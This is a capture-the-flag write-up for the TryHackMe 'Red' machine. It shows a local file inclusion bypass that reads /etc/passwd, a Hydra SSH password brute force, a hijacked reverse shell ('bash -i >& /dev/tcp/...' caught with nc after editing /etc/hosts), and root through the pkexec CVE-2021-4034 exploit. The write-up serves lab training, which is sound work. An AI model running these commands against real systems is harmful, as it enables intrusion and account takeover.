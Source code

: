 ```yaml
---
title: "Red"
date: 2023-07-07 18:02:00 +0800
categories: [TryHackMe]
tags: [cve, sudo, exifdata]
image:
  path: /banners/red.webp
---
```




> Description : A classic battle for the ages.
{: .prompt-info }



# Enumerations

Let's start with a quick Nmap scan.
### Nmap Scan


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-16 15:48 +01
Nmap scan report for 10.10.27.215
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```
It appears that there is an Apache2 web server running on port 80.
I have come across a parameter in the URL. Let's investigate it further by examining the following URL: 

```
"http://10.10.27.215/index.php?page=home.html".
```


Let's proceed with brute-forcing to discover potential files within this parameter.

```bash
ffuf -u http://10.10.27.215/index.php?page=FUZZ -w /usr/share/wordlists/dirb/common.txt -fw 1
```

```bash
index.php               [Status: 200, Size: 351, Words: 45, Lines: 18]
```
By visiting the provided endpoint, we have discovered a PHP code comment within the source code.

```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```
I successfully bypassed the PHP str_replace function by utilizing [php:///filter/resource=/etc/passwd](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```
It appears that there are three users: root, blue, and red.

I attempted to locate some logs for potential log poisoning, but unfortunately, I couldn't.

Finally, I have managed to obtain some valuable information.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/bbe20e0e-c133-4b98-a554-786782c1615c)

The user "blue" attempted to enhance the security of their password by implementing various rules. However, I was able to get access. 
I generated a password list and successfully performed a brute force attack on "blue"'s password using Hydra.


```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-16 16:16:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.27.215:22/
[22][ssh] host: 10.10.27.215   login: blue   password: [PASS]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-16 16:16:51
```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/df1d55df-fbc1-424a-be5e-496b96adc92a)

# Priv

I keep getting msg from the shell

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e84fab96-22fe-46b4-8a44-6096304e62e4)

And the password keeps changing every time the shell kicks me out.

Every time I receive a message, I start another shell to continue the process.


By running pspy64;

```toml
2023/07/16 15:25:57 CMD: UID=1001  PID=2685   | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```
I added my IP to /etc/hosts in order to obtain a reverse shell.

```bash
blue@red:/tmp$ echo 10.18.81.222 redrules.thm >> /etc/hosts
```

```bash

achux@Fs:~$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.27.215 33578
bash: cannot set terminal process group (2955): Inappropriate ioctl for device
bash: no job control in this shell
red@red:~$

```

```bash
red@red:~$ ll
total 36
drwxr-xr-x 4 root red  4096 Aug 17  2022 ./
drwxr-xr-x 4 root root 4096 Aug 14  2022 ../
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc
drwx------ 2 red  red  4096 Aug 14  2022 .cache/
-rw-r----- 1 root red    41 Aug 14  2022 flag2
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git/
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
```

`.git` weird folder!!


```bash
red@red:~/.git$ ll
total 40
drwxr-x--- 2 red  red   4096 Aug 14  2022 ./
drwxr-xr-x 4 root red   4096 Aug 17  2022 ../
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec*
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

I believe we can exploit that situation.

[💜 CVE-2021-4034](https://github.com/Almorabea/pkexec-exploit/blob/main/CVE-2021-4034.py)

Simply copying and pasting the exploit will not be sufficient to achieve our goal. 
We need to understand the exploit thoroughly and tailor it to the specific context in order to successfully exploit the vulnerability.

we need to change this part;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/461ff9c5-b4b3-48ec-9f22-1b866bdae411)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/76680a06-8b3c-4b84-8531-4989a8dc859d)

```bash


# whoami
root

```

Congratulations on successfully compromising the machine! Well done! If you need any further assistance in the future, feel free to reach out. Take care and goodbye! 💜
